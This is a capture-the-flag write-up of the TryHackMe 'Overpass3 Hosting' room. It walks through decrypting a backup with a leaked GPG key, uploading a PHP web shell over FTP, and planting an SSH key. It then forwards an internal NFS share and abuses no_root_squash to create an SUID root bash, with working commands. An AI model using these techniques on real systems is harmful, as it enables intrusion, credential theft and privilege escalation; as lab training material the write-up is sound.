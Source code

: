 # Overpass3 Hosting (THM)

- https://tryhackme.com/room/overpass3hosting
- March 22, 2023
- medium

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.37 ((centos))
```

### HTTP

- home page , nothing special 
- directory brute forcing with ffuf 

```
backups
cgi-bin -> 403
```

- backups

![](screenshots/2023-03-22-12-54-05.png)

- download to local machine
- unzip and found gpg key pair

```sh
$ gpg --import priv.key
$ gpg --decrypt CustomerDetails.xlsx.gpg > cust.xlsx
```
- open excel file and found there are names, password, credit card number, etc


### FTP 

- enter first user to FTP and found that it is web root

![](screenshots/2023-03-22-13-01-17.png)

- put php shell to ftp

![](screenshots/2023-03-22-13-06-33.png)

## User Access

- listen with nc and get request to shell.php file

![](screenshots/2023-03-22-13-07-32.png)

- there are opened internal services
```
tcp     LISTEN   0        64               0.0.0.0:41279          0.0.0.0:*     
tcp     LISTEN   0        64               0.0.0.0:2049           0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:34439          0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:111            0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:20048          0.0.0.0:*     
tcp     LISTEN   0        128              0.0.0.0:22             0.0.0.0:*  
```
- nfs has vulnerability but it is opened internally
```
-rw-r--r--. 1 root root 54 Nov 18  2020 /etc/exports
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
````
- first get user access who has home directory and try to make ssh port forwarding
- previously, we got some credentials and try with them
- can change paradox user
- to get ssh access

- In local machine, create id_rsa pair

```sh
$ ssh-keygen -f paradox_rsa
$ cat paradox_rsa.pub
# copy these contents
```

- In remote machine, in `paradox's home directory`, there is a `authorized_keys` file under `.ssh` folder
- overwirte the contents with our paradox_rsa.pub contents
- now can enter with `paradox_rsa` like `ssh paradox@$IP -i paradox_rsa`
- nfs service is opened internally and port forwarding this service via ssh
- check nfs service


```sh
[paradox@ip-10-10-230-202 ~]$ service rpcbind status
[paradox@ip-10-10-230-202 ~]$ ss -antu | grep 2049
```

- ssh port forwarding in local machine

```sh
$ ssh -i paradox_rsa -L 2049:127.0.0.1:2049 paradox@$IP
```
- create tmp folder to mount this directory
- in local machine
```sh
$ mkdir /tmp/m
$ sudo mount -t nfs -o port=2049 localhost:/ /tmp/m
$ cd /tmp/m
```

## Root Access

- change root user in local machine `su root`
- in that folder there is id_rsa key in `.ssh` directory
- `cat .ssh/id_rsa` and copy the content and save as james_rsa outside this mount directory
- chmod 600 to james_rsa
- now can enter as james user with id_rsa key
- first copy the bash file as james user
```sh
[james@ip-10-10-230-202 ~]$ cp /bin/bash .
[james@ip-10-10-230-202 ~]$ ls -la bash
-rwxr-xr-x  1 james james 1219248 Mar 22 07:34 bash
```
- from nfs mount, execute as root user 
- first copy this bash to other name
- change it to suid bit by root user
```sh
root# cp bash root_bash
root# chmod +s root_bash
```

- from james ssh

```sh
[james@ip-10-10-230-202 ~]$ ls -l
total 2388
-rwxr-xr-x  1 james james 1219248 Mar 22 07:36 bash
-rwsr-sr-x  1 root  root  1219248 Mar 22 07:36 root_bash
-rw-------. 1 james james      38 Nov 17  2020 user.flag
[james@ip-10-10-230-202 ~]$ ./root_bash -p
root_bash-4.4# whoami
root
```

- for flag, 

```sh
root_bash-4.4# find / -name *.flag 2>/dev/null
```

---